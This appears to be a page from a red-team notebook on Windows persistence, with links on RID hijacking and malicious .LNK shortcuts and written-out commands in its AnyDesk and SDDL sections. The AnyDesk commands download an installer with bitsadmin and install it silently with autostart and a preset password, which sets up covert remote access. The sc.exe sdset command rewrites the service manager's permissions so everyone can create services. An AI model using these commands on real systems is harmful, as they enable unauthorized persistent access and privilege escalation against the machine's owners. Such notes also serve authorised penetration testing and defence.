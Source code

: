 

### RID Hijacking

- [https://r4wsecurity.blogspot.com/2017/12/rid-hijacking-maintaining-access-on.html](https://r4wsecurity.blogspot.com/2017/12/rid-hijacking-maintaining-access-on.html)
- [https://github.com/r4wd3r/RID-Hijacking](https://github.com/r4wd3r/RID-Hijacking)



### .LNK Shortcuts

- [https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence](https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence)
- [https://github.com/rvrsh3ll/Misc-Powershell-Scripts/blob/master/Create-HotKeyLNK.ps1](https://github.com/rvrsh3ll/Misc-Powershell-Scripts/blob/master/Create-HotKeyLNK.ps1)



### AnyDesk

- [https://support.anydesk.com/knowledge/use-cases-for-the-command-line-interface](https://support.anydesk.com/knowledge/use-cases-for-the-command-line-interface)
- [https://support.anydesk.com/knowledge/command-line-interface-for-windows](https://support.anydesk.com/knowledge/command-line-interface-for-windows)

```
Cmd > bitsadmin /transfer job1 https://download.anydesk.com/AnyDesk-CM.exe C:\Users\snovvcrash\AppData\Local\Temp\anydesk.exe
Cmd > C:\Users\snovvcrash\AppData\Local\Temp\anydesk.exe --install C:\Users\snovvcrash\AppData\Local\AnyDesk --start-with-win --silent
Cmd > del C:\Users\snovvcrash\AppData\Local\Temp\anydesk.exe
Cmd > echo Passw0rd! | C:\Users\snovvcrash\AppData\Local\AnyDesk\AnyDesk.exe --set-password
Cmd > cmd /c "for /f ""delims="" %i in ('C:\Users\snovvcrash\AppData\Local\AnyDesk\AnyDesk.exe --get-id') do echo %i"
Cmd > C:\Users\snovvcrash\AppData\Local\AnyDesk\AnyDesk.exe --remove
```



### SDDL Manipulation

- [https://0xv1n.github.io/posts/scmanager/](https://0xv1n.github.io/posts/scmanager/)
- [https://gist.github.com/pich4ya/c15af736f0f494c1a560e6c837d77828](https://gist.github.com/pich4ya/c15af736f0f494c1a560e6c837d77828)

{% embed url="https://twitter.com/0gtweet/status/1628720819537936386" %}

Backup current SDDL for `scmanager`:

```
Cmd > sc.exe sdshow scmanager
```

Change it to allow everyone to create a service:

```
Cmd > sc.exe sdset scmanager D:(A;;KA;;;WD)
```
